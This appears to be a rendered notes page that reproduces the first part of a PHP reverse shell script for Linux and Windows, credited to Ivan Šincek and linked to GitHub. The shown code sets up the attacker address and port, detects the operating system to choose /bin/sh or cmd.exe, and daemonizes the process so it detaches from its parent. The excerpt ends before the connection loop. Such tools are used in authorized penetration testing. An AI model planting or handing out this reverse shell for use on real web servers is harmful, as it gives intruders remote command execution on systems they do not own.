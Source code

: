 

# php windows reverse shell by Ivan Šincek

can be found here https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php

````php
<?php
// Copyright (c) 2020 Ivan Šincek
// v2.3
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function \_\_construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
        if (stripos(PHP\_OS, 'LINUX') !== false) { // same for macOS
            $this->os    = 'LINUX';
            $this->shell = '/bin/sh';
        } else if (stripos(PHP\_OS, 'WIN32') !== false || stripos(PHP\_OS, 'WINNT') !== false || stripos(PHP\_OS, 'WINDOWS') !== false) {
            $this->os    = 'WINDOWS';
            $this->shell = 'cmd.exe';
        } else {
            $detected = false;
            echo "SYS\_ERROR: Underlying operating system is not supported, script will now exit...\\n";
        }
        return $detected;
    }
    private function daemonize() {
        $exit = false;
        if (!function\_exists('pcntl\_fork')) {
            echo "DAEMONIZE: pcntl\_fork() does not exists, moving on...\\n";
        } else if (($pid = @pcntl\_fork()) < 0) {
            echo "DAEMONIZE: Cannot fork off the parent process, moving on...\\n";
        } else if ($pid > 0) {
            $exit = true;
            echo "DAEMONIZE: Child process forked off successfully, parent process will now exit...\\n";
        } else if (posix\_setsid() < 0) {
            // once daemonized you will actually no longer see the script's dump
            echo "DAEMONIZE: Forked off the parent process but cannot set a new SID, moving on as an orphan...\\n";
        } else {
            echo "DAEMONIZE: Completed successfully!\\n";
        }
````